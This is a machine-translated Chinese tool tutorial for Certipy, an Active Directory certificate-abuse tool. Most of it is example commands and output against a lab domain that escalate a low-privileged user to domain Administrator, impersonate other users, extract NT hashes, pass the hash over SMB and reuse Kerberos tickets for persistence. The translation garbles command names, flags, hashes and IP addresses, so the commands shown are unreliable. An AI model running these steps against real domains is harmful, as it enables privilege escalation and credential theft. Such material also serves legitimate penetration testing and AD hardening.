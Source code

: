 # Certipy:针对 Active Directory 证书滥用的 Python 实现

> 原文：<https://kalilinuxtutorials.com/certipy/>

[![](img/c6986e67c942adfac42242cb00456ffb.png)](https://blogger.googleusercontent.com/img/a/AVvXsEg3sUJOtECI-8uHdvFxy8_2Su7ZusmuSNXs7txzYdzE0ixl3sEPfGaZBOzuE7IqilBuUIhA5fbO_II1c_QCD9lk7ymmVqdZn4GmvegOnvmtwFFvM0U_xFB8M0xfp-rk-y9DwQSNcGd7658SSS-T2WiSggfpCRJChlXwkaMeJaUWhvMXwfseA6IZ6nmN=s728)

Certipy 是一个 Python 工具，用于列举和滥用活动目录证书服务(AD CS)中的错误配置。

基于 C#变体 Certify from @harmj0y 和@tifkin_。

**安装**

**$ python3 setup.py 安装**

**用途**

**$ certipy -h
用法:certi py[-h][-DEBUG][-target-IP IP address][-name server name server][-DNS-TCP][-hashes lm hash:n hash][-no-pass][-k][-DC-IP address]
目标{find，req，auth，auto }……
Active Directory 证书滥用
位置参数:
目标[[domain/]用户名[:密码]@]
{find，req，req 根据目标参数从 ccache 文件(KRB5CCNAME)中获取凭据。如果找不到有效的凭证
，它将使用命令行中指定的凭证
-dc-ip ip 地址域控制器的 ip 地址。如果省略，它将使用目标参数
中指定的域部分(FQDN)连接:
-目标 ip ip 地址
目标机器的 ip 地址。如果省略，它将使用指定为目标的任何内容。这在目标是
NetBIOS 名称并且您无法解析它时很有用
-名称服务器名称服务器
名称服务器用于 dns 解析
-dns-tcp 使用 tcp 而不是 UDP 进行 DNS 查询
认证:
-哈希 lm hash:n hash
NTLM 哈希，格式为 lm hash:n hash**

**例题**

**自动**

自动滥用证书模板进行特权提升。此操作将尝试查找、请求并验证为`**Administrator**`用户。成功后，将保存一个凭据缓存，并将从 TGS_REP 中的 PAC 中解密 NT 哈希

为了演示错误配置证书模板是多么容易，默认的证书模板`**Web Server**`被复制到了`**Copy of Web Server**`。唯一的变化是 EKU `**Server Authentication**`被移除，认证用户可以注册。这将允许注册者指定主题并将其用于客户端身份验证，即作为任何用户进行身份验证。如果没有指定 eku，则证书可以用于所有目的。或者，人们可以添加`**Client Authentication**` EKU。

在本例中，用户`**john**`是一个低特权用户，他被允许注册`**Copy of Web Server**`模板。

**$ certi py ' predator/John:Passw0rd @ DC . predator . local ' auto
[*]用 CA 'predator-DC-CA' [* ]生成 RSA 密钥
[ *]请求证书[* ]请求成功
[ *]用 UPN '管理员'[【T9]]获得证书保存证书到' 1.crt'
[ *]保存私钥到' 1 . key '[【T11 将凭据缓存保存到“Administrator . ccache”
[*]尝试检索“Administrator@predator”的 NT 哈希[*]获得了“Administrator@predator”的 NT 哈希:fc 525 c 9683 e 8 Fe 067095 ba 2d DC 971889****

默认情况下，选择用户`**Administrator**`。使用`-**user**`参数为另一个用户创建证书。

**找到**

`find`动作将查找由一个或多个 ca 启用的证书模板。

**找到易受攻击的模板**

使用 **`-vulnerable`** 参数仅查找易受攻击的证书模板。

**$ certi py ' predator/john:pass w0 rd @ DC . predator . local ' find-vulnerable
[*]查找' John '的易受攻击证书模板
用户
姓名:predator\john
组:
证书颁发机构
0
CA 名称:predator-DC-CA
DNS 名称:dc.predator.local
证书主题:CN=predator-DC-CA，DC=predator、 DC =本地
证书序列号:1976d 0 fefcafc 9 a 84d 02d 305 fa 88d 84d
证书有效期开始:2021-10-06 11:32:01+00:00
证书有效期结束:2026-10-06 11:42:01+00:00
用户指定 SAN:禁用
CA 权限
所有者:BUILTIN\Administrator
有效期:2 年
续期:6 周
证书名称标志:enroluesupplies subject
注册标志:无
需要授权签名:0
扩展密钥用法:
权限
注册权限
注册权限:掠夺者\域管理员
掠夺者\企业管理员
认证用户
对象控制权限
所有者:掠夺者\管理员
写所有者委托人:掠夺者\域管理员
掠夺者\企业管理员【T43 predator\Administrator
写属性 principles:predator \ Domain Admins
predator \ Enterprise Admins
predator \ Administrator
易受攻击原因:“认证用户”可以注册，注册者提供主题和模板允许认证
“认证用户”可以注册，模板有危险 EKU**

使用`**-user**`参数为另一个用户查找易受攻击的证书模板。默认情况下，将使用当前用户。

**找到所有模板**

**$ certi py ' predator/john:pass w0 rd @ DC . predator . local ' find
[*]查找' John '的证书模板
用户
名称:predator\john
组:
证书颁发机构
0
CA 名称:predator-DC-CA
DNS 名称:dc.predator.local
证书主题:CN=predator-DC-CA，DC=predator、 DC =本地
证书序列号:1976d 0 fefcafc 9 a 84d 02d 305 fa 88d 84d
证书有效期开始:2021-10-06 11:32:01+00:00
证书有效期结束:2026-10-06 11:42:01+00:00
用户指定 SAN:禁用
CA 权限
所有者:BUILTIN\Administrator
年份
续订期:6 周
证书名称标志:subjectrequiredirepath
subjectrequirememail
SubjectAltRequireEmail
SubjectAltRequireUpn
注册标志:自动注册
publishettos
包含对称算法
所需授权签名:0
扩展密钥用法:加密文件系统
安全电子邮件
客户端身份验证
权限
注册权限
注册权限:predator\Domain Admins
predator \ Enterprise Admins
写 Dacl 主体:predator \ Domain Admins
predator \ Enterprise Admins
写属性主体:predator \ Domain Admins
predator \ Enterprise Admins
[…]
11
CAs:predator-DC-CA
模板名称:Web 服务器副本
有效期:2 年
续订期:6 周
证书名称标志:enroluesupplies subject
注册标志:无
需要授权签名:0
扩展密钥用法:
权限
注册权限
注册权限:predator \域管理员
predator \企业管理员【T68 掠夺者\企业管理员
掠夺者\管理员
写 Dacl 主体:掠夺者\域管理员
掠夺者\企业管理员
掠夺者\管理员
写属性主体:掠夺者\域管理员
掠夺者\企业管理员
掠夺者\管理员**

**请求**

从证书模板申请新证书。默认情况下，将使用在`**target**`参数中指定的当前用户。

**作为另一用户请求**

要以另一个用户的身份申请证书，请使用`**-alt**`参数。这仅适用于注册者指定主题的证书模板，或者当 CA 允许注册者指定 UPN 时，即`**User Specified SAN**`设置为`**Enabled**`。

在这个例子中，用户`**john**`是低特权用户。证书模板`**Copy of Web Server**`是默认`**Web** **Server**`模板的副本。EKU `**Server Authentication**`被移除，因此模板没有 EKU(没有 EKUs =任何用途)。默认的`*Web Server*`模板允许注册者提供主题。

`**john**`将作为`**jane**`请求认证有效的证书。CA `**predator-DC-CA**`已经`**Copy of Web Server**`启用。

**$ certi py ' predator/John:Passw0rd @ DC . predator . local ' req-template ' Web 服务器副本'-CA ' predator-DC-CA '-alt ' Jane '
[*]生成 RSA 密钥[* ]请求证书
[ *]请求成功[* ]用 UPN 'jane'
[ *]获得证书保存证书到' 2.crt' [* ]保存私钥到' 2.key'**

证书和密钥将被 DER 编码并保存到`**<request ID>.(crt|key)**`，其中`**request ID**`由服务器返回。

**要求成为自我**

也可以为当前用户申请证书。对于持久性来说，这是一个很好的选择，因为证书不受密码更改的影响。默认情况下，允许域用户注册默认的`**Use**r`模板。

**$ certi py ' predator/John:Passw0rd @ DC . predator . local ' req-template ' User '-CA ' predator-DC-CA '
[*]生成 RSA 密钥[* ]请求证书
[ *]请求成功[* ]用 UPN ' John @ predator . local '
[*]获得证书保存证书到' 3.crt' [* ]保存私钥到' 3.key'**

**认证**

`auth`动作将使用 PKINIT Kerberos 扩展来验证所提供的证书。必须在`**target**`参数中指定目标用户。如果未指定，Certipy 将尝试从证书中提取 UPN。TGT 将被保存在`**<username>.ccach**e`的凭证缓存中。

将通过使用 Kerberos U2U 为当前用户请求一个 TGS 来提取 nt 哈希，其中加密的 PAC 将包含可以解密的 NT 哈希。

$ certi py ' predator/Jane @ DC . predator . local ' auth-cert。/2.crt -key。/2.key
[ *]使用 UPN: 'jane@predator' [* ]尝试获取 TGT…
[ *]将凭据缓存保存到' jane.ccache' [* ]尝试检索' jane@predator '的 NT 哈希
[*]获取' jane@predator '的 NT 哈希:077 cccc 23 F8 ab 7031726 a3 b 70 c 694 a 49

**使用 NT 哈希**

您可以简单地为许多服务传递散列(PTH)。例如中小型企业:

**$ in packet-SMB client-hashes:fc 525 c 9683 e 8 Fe 067095 ba 2d DC 971889 ' predator . local/administrator @ DC . predator . local '
in packet v 0 . 9 . 23–Copyright 2021 secure auth Corporation
键入命令列表帮助
who
host: \172.16.19.1，user: administrator，active: 1，idle: 0**

**使用凭证缓存**

凭据缓存当前保存一个 TGT。TGT 可用于向 TGS 请求服务。例如，在`**dc.predator.local**`为`**cifs**` (SMB)服务请求 TGS:

**$ #使用 Certipy 中的 TGT
$ export krb 5c name =。/administrator . ccache
$ # request TGS
$ impacket-getST-SPN ' CIFS/DC . predator . local '-DC-IP 172 . 16 . 19 . 100-no-pass-k ' predator/administrator '
$ #使用来自 impacket-getST
$ export krb 5c name =。/administrator.ccache
$ #使用 TGS 运行 smbclient(注意 FQDN)
$ Impacket-SMB client-k-no-pass ' predator . local/Administrator @ DC . predator . local '
Impacket v 0 . 9 . 23–Copyright 2021 secure auth Corporation
键入命令列表的帮助
#who
主机:\172.16.19.1，用户:管理员，活动:1，空闲:0 【T12**

**注意**`impacket-getST`将在`<username>.ccache`覆盖凭证缓存。在使用`impacket-getST`请求 TGS 之前，从 Certipy 创建凭据缓存的副本。

[**Download**](https://github.com/ly4k/Certipy)
